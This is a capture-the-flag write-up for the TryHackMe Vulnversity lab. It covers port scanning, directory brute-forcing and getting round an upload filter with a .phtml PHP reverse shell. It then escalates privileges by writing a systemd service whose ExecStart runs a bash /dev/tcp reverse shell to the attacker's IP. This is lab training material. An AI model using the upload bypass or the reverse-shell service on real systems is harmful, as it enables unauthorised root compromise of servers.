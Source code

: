 ```yaml
---
layout: post
title: TryHackMe - Vulnversity
---
```


This is a writeup for Vulnversity on [TryHackMe](https://tryhackme.com/room/vulnversity).

## Reconnaissance

```bash
root@kali:~/TryHackMe/vulnversity# nmap -sV 10.10.149.14
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-12 20:04 EDT
Nmap scan report for 10.10.149.14
Host is up (0.16s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.19 seconds
```

* Scan the box, how many ports are open?
	* 6
* What version of the squid proxy is running on the machine?
	* 3.5.12
* How many ports will nmap scan if the flag -p-400 was used?
	* 400
* Using the nmap flag -n what will it not resolve?
	* DNS
* What is the most likely operating system this machine is running?
	* Ubuntu
* What port is the web server running on?
	* 3333

> Its important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don't forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background)

## Locating directories using GoBuster

```bash
root@kali:~/TryHackMe/vulnversity# gobuster dir -u http://10.10.149.14:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.149.14:3333
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/12 20:20:02 Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/internal (Status: 301)
Progress: 9871 / 220561 (4.48%)
```

* What is the directory that has an upload form page?
	* `/internal/`

## Compromise the webserver
With a form to upload files, we can upload and execute our payload that will lead to compromising the web server.

* Try upload a few file types to the server, what common extension seems to be blocked?
	* .php

We have an upload form that blocks .php extensions. Let's see if we can get around that. First, catch a request to upload a file in Burp Suite. Use Action->Send to Intruder. Set the IP and port in the Attack Target menu under Intruder. Set up the Payload Positions like so, with the attack type of Sniper:
```
POST /internal/index.php HTTP/1.1
Host: 10.10.149.14:3333
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.149.14:3333/internal/index.php

Content-Type: multipart/form-data; boundary=---------------------------6074011111607751422717811685
Content-Length: 54530
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------6074011111607751422717811685
Content-Disposition: form-data; name="file"; filename="shell§.php§"
Content-Type: application/x-php


-----------------------------6074011111607751422717811685
Content-Disposition: form-data; name="submit"

§Submit§
-----------------------------6074011111607751422717811685--
```


For Intruder in Burp Suite, we make a wordlist with php extensions and then load it into the Payloads' simple list table. Make sure to not encode characters as HTML, or put the period outside the payload.
```bash
root@kali:~/TryHackMe/vulnversity# cat phpext.txt 
.php
.php3
.php4
.php5
.phtml
```

* Run a Burp Intruder Sniper attack. Which extension is allowed?
	* .phtml

Burp tells us that .phtml is an allowed format. Let's make php-reverse-shell.phtml from the standard pentestmonkey reverse shell script on GitHub, replacing the default ip with our output from `ifconfig tun0`.

## Gaining a Foothold

Start a listener like `nc -lvnp 1234` and upload the file. Then, navigate to `http://10.10.149.14:3333/internal/uploads/php-reverse-shell.phtml` and you should get a shell. Check who lives there and find the user flag.

```bash
root@kali:~/TryHackMe/vulnversity# nc -lvnp 1234
listening on [any] 1234 
...
$ whoami
www-data
$ ls /home
bill
$ ls /home/bill
user.txt
$ cat /home/bill/user.txt
8bd7992f8{censored}a261004cfcedb
```

* What is the name of the user who manages the webserver?
	* bill (check `/home`)
* What is the user flag?
	* 8bd7992f8{censored}a261004cfcedb

## Privilege Escalation

Do we have an SUID misconfiguration?

```
$ find / -user root -perm -4000 -exec ls - ldb {} \; 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
```

To use a misconfigured systemctl, we need to find a writable directory ([REF](https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49)). As www-data, we go to `/var/www/html/`. We then create a file called `root.service`.

```
$ cd /var/www/html # www-data has permission to create files here
$ echo "[Unit] 
> Description=rooot
> 
> [Service]
> Type=simple
> User=root
> ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.8.20.137/9999 0>&1'
> 
> [Install]
> WantedBy=multi-user.target
> " > root.service
```

> It’s important to make sure that the User value is set to the user you want systemctl to execute the service as. In this case, I set this value to root because my goal is to obtain a root level shell. The ExecStart parameter is where we need to place our payload. In this case, I am using a one-line bash reverse shell.

```
$ cat root.service
[Unit]
Description=rooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.8.20.137/9999 0>&1'

[Install]
WantedBy=multi-user.target

$ systemctl enable $(pwd)/root.service
Created symlink from /etc/systemd/system/multi-user.target.wants/root.service to /var/www/html/root.service.
Created symlink from /etc/systemd/system/root.service to /var/www/html/root.service.
$ systemctl start root
```

Attacker's listener:

```
root@kali:~/TryHackMe/vulnversity# nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.8.20.137] from (UNKNOWN) [10.10.149.14] 38812
bash: cannot set terminal process group (2181): Inappropriate ioctl for device
bash: no job control in this shell
root@vulnuniversity:/# ls /root
ls /root
root.txt
root@vulnuniversity:/# cat /root/root.txt
cat /root/root.txt
a58ff8579f{censored}33a9966c7fd5
```